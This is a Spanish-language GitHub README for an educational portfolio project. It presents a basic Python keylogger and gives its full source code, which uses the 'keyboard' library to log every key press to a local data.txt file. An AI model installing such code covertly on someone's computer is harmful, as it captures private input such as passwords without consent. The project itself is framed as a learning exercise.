 <img align="center" src="https://media.licdn.com/dms/image/v2/D4D16AQGUNxQ7NSC05A/profile-displaybackgroundimage-shrink_350_1400/profile-displaybackgroundimage-shrink_350_1400/0/1738695150340?e=1744243200&v=beta&t=oXX-ixT9bR3dJcYCLv4KBs5wjKFoeP0524kFGHQMYmQ" alt="gabriellugo" />

# KEYLOGGER

<a href="https://github.com/GabrielLugooo/Keylogger/blob/main/README%20Spanish.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Keylogger%20Español-000000" alt="Keylogger Español" /></a>
<a href="https://github.com/GabrielLugooo/WKeylogger" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Keylogger%20Inglés-green" alt="Keylogger Inglés" /></a>

### Objetivos

Este proyecto tiene como objetivo capturar las pulsaciones de teclas del usuario y almacenarlas en un archivo de texto. Se basa en la biblioteca `keyboard` de Python para registrar cada tecla presionada y guardarla en un archivo `data.txt` en tiempo real.

El keylogger es una herramienta útil para comprender el funcionamiento de la captura de eventos de teclado en Python, lo que permite su aplicación en áreas como seguridad informática, pruebas de software y accesibilidad.

### Habilidades Aprendidas

- Captura de eventos de teclado en Python.
- Uso de la biblioteca `keyboard`.
- Manejo de archivos en Python.
- Escritura y lectura de datos en archivos de texto.
- Automatización de procesos con eventos del sistema.

### Herramientas Usadas

![Static Badge](https://img.shields.io/badge/Python-000000?logo=python&logoSize=auto)

- Python
- Biblioteca `keyboard`

### Proyecto

#### Vista Previa

<img align="center" src="https://i.imgur.com/uEPMPfS.jpeg" alt="keylogger1" />
<img align="center" src="https://i.imgur.com/7bhqjLd.jpeg" alt="keylogger2" />

#### Código con Comentarios (Español)

```python
# Keylogger

# Instalar la librería necesaria con: pip install keyboard
# Importar la librería para detectar las pulsaciones de teclas
import keyboard

# Función que se ejecuta cada vez que se presiona una tecla
def pressedKeys(key):
    # Abrir (o crear) el archivo 'data.txt' en modo de adición ('a')
    with open('data.txt', 'a') as file:
        # Si la tecla presionada es la barra espaciadora, agregar un espacio en el archivo
        if key.name == 'space':
            file.write(' ')
        else:
            # Agregar el nombre de la tecla presionada al archivo
            file.write(key.name)

# Asignar la función pressedKeys para ejecutarse en cada pulsación de tecla
keyboard.on_press(pressedKeys)

# Mantener el programa en ejecución esperando eventos de teclado
keyboard.wait()
```

### Limitaciones

El Keylogger es solo para fines educativos bajo la licencia MIT.

---

<h3 align="left">Conecta Conmigo</h3>

<p align="left">
<a href="https://www.youtube.com/@gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=55200&format=png" alt="@gabriellugooo" height="40" width="40" /></a>
<a href="http://www.tiktok.com/@gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=118638&format=png" alt="@gabriellugooo" height="40" width="40" /></a>
<a href="https://instagram.com/lugooogabriel" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=32309&format=png" alt="lugooogabriel" height="40" width="40" /></a>
<a href="https://twitter.com/gabriellugo__" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=phOKFKYpe00C&format=png" alt="gabriellugo__" height="40" width="40" /></a>
<a href="https://www.linkedin.com/in/hernando-gabriel-lugo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=50&id=8808&format=png" alt="hernando-gabriel-lugo" height="40" width="40" /></a>
<a href="https://github.com/GabrielLugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.icons8.com/?size=80&id=AngkmzgE6d3E&format=png" alt="gabriellugooo" height="34" width="34" /></a>
<a href="mailto:lugohernandogabriel@gmail.com"> <img align="center" src="https://img.icons8.com/?size=50&id=38036&format=png" alt="lugohernandogabriel@gmail.com" height="40" width="40" /></a>
<a href="https://linktr.ee/gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://simpleicons.org/icons/linktree.svg" alt="gabriellugooo" height="40" width="40" /></a>
</p>

<p align="left">
<a href="https://github.com/GabrielLugooo/GabrielLugooo/blob/main/Readme%20Spanish.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Versión%20Español-000000" alt="Versión Español" /></a>
<a href="https://github.com/GabrielLugooo/GabrielLugooo/blob/main/README.md" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Versión%20Inglés-Green" alt="Versión Inglés" /></a>

</p>

<a href="https://linktr.ee/gabriellugooo" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/Créditos-Gabriel%20Lugo-green" alt="Créditos" /></a>
<img align="center" src="https://komarev.com/ghpvc/?username=GabrielLugoo&label=Vistas%20del%20Perfil&color=green&base=2000" alt="GabrielLugooo" />
<a href="" target="_blank" rel="noreferrer noopener"> <img align="center" src="https://img.shields.io/badge/License-MIT-green" alt="MIT License" /></a>
